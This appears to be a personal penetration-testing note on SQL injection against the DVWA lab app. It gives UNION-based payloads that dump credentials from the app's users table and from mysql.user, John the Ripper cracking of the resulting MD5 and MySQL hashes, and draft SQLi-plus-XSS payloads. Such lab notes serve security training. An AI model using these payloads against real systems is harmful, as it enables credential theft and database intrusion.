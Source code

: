# 02 - Data Collection

Search Tag(s): #sql-injection #union #credential-access-and-dumping #data-exfiltration #dvwa

## 2.1 - Dump Credentials

### 2.1.1 - Current Database Credentials

- This is useful when grabbing the credentials to find a login panel with administrative privileges. Moreover, it is possible to reuse the credentials when facing network protocols. Let's query the credentials from the current database.

```sql
' UNION SELECT user, password FROM users#
```

![[01 - Dump Credentials From Current DB.png]]

- Let's concatenate it to organize it nicely.

```sql
' UNION SELECT user || ':' || password, NULL FROM users#

' UNION SELECT concat(user,':',password), NULL FROM users#

' UNION SELECT concat(user,0x3a,password), NULL FROM users#

' UNION SELECT group_concat(user,':',password), NULL FROM users#

' UNION SELECT group_concat(user,0x3a,password), NULL FROM users#

' UNION SELECT concat(user,'~',password), NULL FROM users#

' UNION SELECT group_concat(user,'~',password), NULL FROM users#

' UNION SELECT concat(user,'\n',password), NULL FROM users#

' UNION SELECT concat(user,0x0a,password), NULL FROM users#

' UNION SELECT group_concat(user,0x0a,password), NULL FROM users#
```

![[02 - Formatted Dumped Credentials From Current DB.png]]

- Copy the concatenated usernames and hashed credentials and output it in a file.

```
$ echo "admin:5f4dcc3b5aa765d61d8327deb882cf99,gordonb:e99a18c428cb38d5f260853678922e03,1337:8d3533d75ae2c3966d7e0d4fcc69216b,pablo:0d107d09f5bbe40cade3de5c71e9e9b7,smithy:5f4dcc3b5aa765d61d8327deb882cf99" | tr "," "\n" > current_db_hashes.txt
```

### 2.1.2 - Crack Current Database Password Hashes

- Let's identify what hash algorithm it uses before we could crack it. Let's run [[Name-That-Hash]].

```
$ nth --no-banner --no-hashcat --text '5f4dcc3b5aa765d61d8327deb882cf99'

5f4dcc3b5aa765d61d8327deb882cf99

Most Likely 
MD5, JtR: raw-md5 Summary: Used for Linux Shadow files.
MD4, JtR: raw-md4
NTLM, JtR: nt Summary: Often used in Windows Active Directory.
Domain Cached Credentials, JtR: mscach

Least Likely
Domain Cached Credentials 2, JtR: mscach2 Double MD5,  Tiger-128,  Skein-256(128),  Skein-512(128),  Lotus Notes/Domino 5, JtR: lotus5 
md5(md5(md5($pass))), Summary: Hashcat mode is only supported in hashcat-legacy. md5(uppercase(md5($pass))),  md5(sha1($pass)),  
md5(utf16($pass)), JtR: dynamic_29 md4(utf16($pass)), JtR: dynamic_33 md5(md4($pass)), JtR: dynamic_34 Haval-128, JtR: haval-128-4 RIPEMD-128, 
JtR: ripemd-128 MD2, JtR: md2 Snefru-128, JtR: snefru-128 DNSSEC(NSEC3),  RAdmin v2.x, JtR: radmin Cisco Type 7,  BigCrypt, JtR: bigcrypt
```

- We will crack the `raw-md5` hashes with [[07 - Tactics & Techniques & Procedures (TTPs) Phases/C - Initial Access/0x00 - Exploitation/0xD - Password Cracking/Offline/JTR|John The Ripper (JTR)]] with a dictionary attack using `/usr/share/wordlists/rockyou.txt.gz` wordlist.

```
$ sudo gzip -cdk /usr/share/wordlists/rockyou.txt.gz > /usr/share/wordlists/rockyou.txt
```

- All the hashed credentials are cracked.

```
$ john --format=raw-md5 --wordlist=/usr/share/wordlists/rockyou.txt current_db_hashes.txt
Using default input encoding: UTF-8
Loaded 4 password hashes with no different salts (Raw-MD5 [MD5 256/256 AVX2 8x3])
Warning: no OpenMP support for this hash type, consider --fork=2
Press 'q' or Ctrl-C to abort, almost any other key for status
password         (admin)
abc123           (gordonb)
letmein          (pablo)
charley          (1337)
4g 0:00:00:00 DONE (2023-10-04 10:51) 80.00g/s 61440p/s 61440c/s 92160C/s my3kids..dangerous
Warning: passwords printed above might not be all those cracked
Use the "--show --format=Raw-MD5" options to display all of the cracked passwords reliably
Session completed.
```

TODO: Add XSS for easier view

```sql
' UNION SELECT group_concat(user,':',password), <script>alert()</script>, NULL FROM users#

' UNION SELECT group_concat(user,':',password), <hex_encoded_XSS>, NULL FROM users#

' <script>alert(UNION SELECT group_concat(user,':',password), NULL FROM users)</script>#

' <script>alert(UNION SELECT group_concat(user,0x3a,password), NULL FROM users)</script>#
```

### 2.1.3 - MySQL Hashdump

- This will be useful for authenticating the MySQL DBMS server with an exposed port that allows the attacker the harvest the whole database. In addition, sometimes system administrators reuse the credentials which gives the attacker a leverage authenticate it remotely. Run a port scanner with a fingerprinting tool `nmap` to find open ports. Let's query the credentials from the MySQL server database.

```sql
' UNION SELECT user, password FROM mysql.user#
```

![[03 - Hashdump From DBMS.png]]

```sql
' UNION SELECT user || ':' || password, NULL FROM mysql.user#

' UNION SELECT concat(user,':',password), NULL FROM mysql.user#

' UNION SELECT concat(user,0x3a,password), NULL FROM mysql.user#

' UNION SELECT group_concat(user,':',password), NULL FROM mysql.user#

' UNION SELECT group_concat(user,0x3a,password), NULL FROM mysql.user#

' UNION SELECT concat(user,'~',password), NULL FROM mysql.user#

' UNION SELECT group_concat(user,'~',password), NULL FROM mysql.user#

' UNION SELECT concat(user,'\n',password), NULL FROM mysql.user#

' UNION SELECT concat(user,0x0a,password), NULL FROM mysql.user#

' UNION SELECT group_concat(user,0x0a,password), NULL FROM mysql.user#
```

![[04 - Formatted Hashdump From DBMS.png]]

- Copy the concatenated hashdumped credentials and output it in a file.

```
$ echo "root:*4F56EF3FCEF3F995F03D1E37E2D692D420111476,dvwa:*D7E39C3AF517EC9EF7086223B036E0B4F22821F8" | tr "," "\n" > mysql_hashes.txt
```

### 2.1.4 - Crack MySQL Server Password Hashes

- Let's identify what hash algorithm it uses before we could crack it. Let's run [[Haiti]].

```
$ haiti --john-only "*4F56EF3FCEF3F995F03D1E37E2D692D420111476"
MySQL5.x [JtR: mysql-sha1]
MySQL4.1 [JtR: mysql-sha1]
```

- We will crack the `mysql-sha1` hashes with [[07 - Tactics & Techniques & Procedures (TTPs) Phases/C - Initial Access/0x00 - Exploitation/0xD - Password Cracking/Offline/JTR|John The Ripper (JTR)]] with a dictionary attack using `/usr/share/wordlists/rockyou.txt` wordlist.

```
$ john --format=mysql-sha1 --wordlist=/usr/share/wordlists/rockyou.txt mysql_hashes.txt
Using default input encoding: UTF-8
Loaded 2 password hashes with no different salts (mysql-sha1, MySQL 4.1+ [SHA1 256/256 AVX2 8x])
Warning: no OpenMP support for this hash type, consider --fork=2
Press 'q' or Ctrl-C to abort, almost any other key for status
p@ssw0rd         (dvwa)     
1g 0:00:00:01 DONE (2023-10-04 15:27) 0.5617g/s 8057Kp/s 8057Kc/s 8063KC/sa6_123..*7¡Vamos!
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

---
## References

- [[07 - Tactics & Techniques & Procedures (TTPs) Phases/A - Information Gathering/02 - Active Fingerprinting/Enumeration via Network Protocols/Databases/SQL/MySQL/Manual|MySQL Active Enumeration]]

- [SecurityIdiots: XSS Injection with SQLi (XSSQLi)](https://www.securityidiots.com/Web-Pentest/SQL-Injection/xss-injection-with-sqli-xssqli.html)